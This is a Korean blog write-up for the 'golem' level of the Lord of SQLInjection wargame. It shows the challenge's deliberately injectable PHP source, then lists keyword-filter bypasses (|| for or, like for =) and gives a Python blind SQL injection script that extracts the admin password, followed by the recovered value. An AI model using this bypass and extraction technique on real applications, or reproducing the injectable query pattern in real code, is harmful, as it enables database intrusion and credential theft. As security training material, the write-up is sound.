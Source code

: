```yaml
---
layout: post
title: ! "[LOS] golem"
categories: [LOS]
excerpt: " "
comments: true
share: true
tags:
  - LOS
  - Web-hacking
  - golem
  - write-up
---
```


### https://los.eagle-jump.org/ 버전
![](/assets/posts/los/golem.png)

`query : select id from prob_golem where id='guest' and pw=''`

```?php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
  highlight_file(__FILE__); 
?>
```

golem 문제는 or, and, substr, = 등등 여러가지가 필터링된다.
```
or -> ||

and -> &&(%26%26)

substr -> substring

= -> like
```

위와 같이 우회해주면 된다.

orge 문제를 풀 때 썼던 코드가 왜인지 안먹혀서...다른 분의 코드를 참고해서 다시 작성하였다.

```py
import urllib2
import urllib
import requests

flag = ""
length = 0

url = "https://los.eagle-jump.org/golem_~~~.php"
session = dict(PHPSESSID = "자신의 세션 아이디")

for i in range(0, 20):
        query = url + "?pw=1' || id like 'admin' %26%26 length(pw) like " + str(i) + "%23"
        r = requests.post(query, cookies=session)

        if 'Hello admin' in r.text:
                length = i
                break

print "password length is ",length

for j in range(1, length + 1):
        for i in range(48, 128):
                query = url + "?pw=1' || id like 'admin' %26%26 mid(pw, " + str(j) + ", 1) like '" + chr(i)
                r = requests.post(query, cookies=session)

                if 'Hello admin' in r.text:
                        flag += chr(i)
                        break

print "password is",flag
```

실행 결과는 다음과 같다.
![](/assets/posts/los/golem_password.png)
password의 길이는 8, password는 88e3137f

이 값을 `?pw=88e3137f` 이렇게 넘겨주면 풀린다.

![](/assets/posts/los/golem_clear.png)
 

### https://los.rubiya.kr 버전

![](/assets/posts/los/golem_result.png)

![](/assets/posts/los/golem_py_clear.png)
